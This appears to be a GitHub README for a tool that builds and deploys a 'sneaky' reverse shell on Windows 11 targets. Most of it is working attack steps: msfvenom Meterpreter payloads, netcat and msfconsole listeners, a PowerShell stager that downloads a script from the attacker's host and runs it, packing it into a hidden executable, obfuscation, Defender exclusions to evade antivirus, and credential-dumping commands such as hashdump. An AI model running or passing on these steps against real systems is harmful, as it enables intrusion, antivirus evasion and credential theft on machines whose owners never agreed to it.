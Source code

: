 ##### Get-ReverseShell README

This repository provides a tool to facilitate the creation and deployment of a sneaky reverse shell on Windows 11 targets, enhancing your penetration testing capabilities. This tool allows you to establish a connection between your Kali Linux machine and the target system, providing a powerful means for further exploration.

## Prerequisites

Before using this tool, ensure that you have the following:

1. **Kali Linux:** Make sure you have Kali Linux installed, along with `msfconsole` and `msfvenom`.
2. **Windows 11:** You need a Windows 11 machine to create an executable file from PowerShell scripts (EXE). Wine may be an option, but it's not officially supported.
3. **Target Windows 11:** The machine you intend to target.

## Configuration Variables

These variables can be adjusted according to your environment. Use Ctrl + F to locate and modify them easily.

```powershell
$lhost = "192.168.0.2"           # IP address of your Kali host
$lport = 4444                    # Listening port on your Kali
$lport_sneaky = 5555             # Sneaky listening port on your Kali
$lwebpath = "/var/www/html/"      # Path to the open website on your Kali
$lwinpath = "C:\Users\w\"         # Working path on the Windows 11 target
$lpath = "/home/k/Desktop/"       # Path to a local directory on your Kali
$rpath = "C:\Users\w\Desktop\"    # Working path on the attacking host
$ps_name = "reverse_shell.ps1"    # Name of your Meterpreter reverse shell PowerShell file
$exe_name = "reverse_shell.exe"   # Name of your attacking sneaky reverse shell executable file
$sneaky_exename = "sneaky_reverse_shell.exe"  # Name of your attacking sneaky reverse shell sneaky executable file
$sneaky_psname = "sneaky_reverse_shell.ps1"   # Name of your sneaky reverse shell sneaky PowerShell file
```

## Usage

1. Open a Kali Linux terminal and execute the following commands:

```bash
cd $lpath
git clone https://github.com/gh0x0st/Get-ReverseShell
cd ./Get-ReverseShell
pwsh
Import-Module ./get-reverseshell.ps1
get-reverseshell -Ip $lhost -Port $lport_sneaky
```

2. Write your script in the file `$lpath/$sneaky_psname` after appending ">> https://github.com/gh0x0st".

3. Continue with the following commands:

```bash
exit
cp $sneaky_psname $lwebpath
nc -nvlp 5555
```

4. Clone Invoke-Obfuscation for obfuscating your PowerShell script:

```bash
git clone https://github.com/danielbohannon/Invoke-Obfuscation
```

5. Open a Windows 11 PowerShell with administrator privileges and run the following commands:

```powershell
Install-PackageProvider -Name NuGet -MinimumVersion 2.8.5.201 -Force -Confirm:$false -ErrorAction SilentlyContinue
Install-Module -Name ps2exe -Force -Confirm:$false -ErrorAction SilentlyContinue
@"
# PowerShell script for downloading and executing the sneaky reverse shell
`$scriptUrl = "http://$lhost/$sneaky_psname"
`$scriptBytes = Invoke-WebRequest -Uri `$scriptUrl -UseBasicParsing -Method Get -MaximumRedirection 0
`$scriptContent = [System.Text.Encoding]::UTF8.GetString(`$scriptBytes.Content)
Invoke-Expression -Command `$scriptContent
"@ | Out-File -FilePath "$lwinpath$sneaky_psname" -Encoding UTF8
Invoke-ps2exe $lwinpath$sneaky_psname $lwinpath$sneaky_exename -noconsole -noerror -nooutput -sta -x64
```

6. Execute the sneaky backdoor on the target machine with administrator privileges.

7. Return to the Kali terminal and check for a successful connection:

```bash
nc -nvlp 5555
```

8. If successful, you can proceed with further commands in the Meterpreter shell.

## Meterpreter Reverse Shell

To use Meterpreter for enhanced functionality:

1. Open a new Kali terminal and execute the following commands:

```bash
sudo su
msfvenom -p windows/x64/meterpreter/reverse_tcp --format psh -o $lpath$ps_name lhost=$lhost lport=$lport
```

2. Create an EXE file for running without a shell in the target:

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp --format exe -o $lpath$exe_name lhost=$lhost lport=$lport
```

3. Use the provided PowerShell script for pasting in the original Kali shell:

```bash
pwsh
./ps2tcps.ps1 -inputFilePath $lpath$ps_name -outputFilePath $lpathnew$ps_name -newPath "$rpath$ps_name"
cat $lpathnew$ps_name
```

4. Open a new Kali terminal and execute the following commands:

```bash
sudo su
msfconsole
use multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set lhost 192.168.0.2
set lport
exploit
```

5. Return to the original Kali shell and paste the content of your Meterpreter script on the target:

```powershell
Add-Content -Path $rpath$ps_name -Value 'line1'
Add-Content -Path $rpath$ps_name -Value 'line2'
Add-Content -Path $rpath$ps_name -Value 'line3'
Add-Content -Path $rpath$ps_name -Value 'line4'
...
Add-MpPreference -ExclusionPath '$rpath$ps_name'
Add-MpPreference -ExclusionPath '$rpath$exe_name'
```

6. If successful, you will see a Meterpreter session opened in the msfconsole. Congratulations, you have a full reverse shell on your target.

## Example Commands

Here are some example commands you can use in the Meterpreter shell:

- `getuid`: Get the user ID of the current user.
- `getsystem`: Attempt to gain system privileges.
- `hashdump`: Retrieve hashes of all users on the target.
- `background`: Move the current session to the background.
- `help`: Display a list of available commands and their descriptions.

Feel free to explore and experiment with additional Meterpreter commands for a comprehensive assessment. Happy hacking!
